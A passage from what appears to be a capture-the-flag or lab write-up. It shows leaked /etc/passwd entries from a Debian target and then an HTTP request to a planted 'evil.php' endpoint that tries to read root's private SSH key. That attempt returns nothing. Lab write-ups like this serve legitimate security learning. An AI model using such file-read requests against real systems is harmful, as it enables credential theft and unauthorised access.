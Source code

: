```http
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

We see that there are the following interesting users: `root`, `mowree`.

## leaking a `ssh` key

### `root` `ssh` key request
```http
GET /secret/evil.php?command=/root/.ssh/id_rsa HTTP/1.1
Host: 192.168.76.212
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

### `root` `ssh` key response
```http
HTTP/1.1 200 OK
Date: Sun, 20 Nov 2022 19:13:16 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

> Requesting the private `ssh` key for `root` does not work.
{: .prompt-danger }
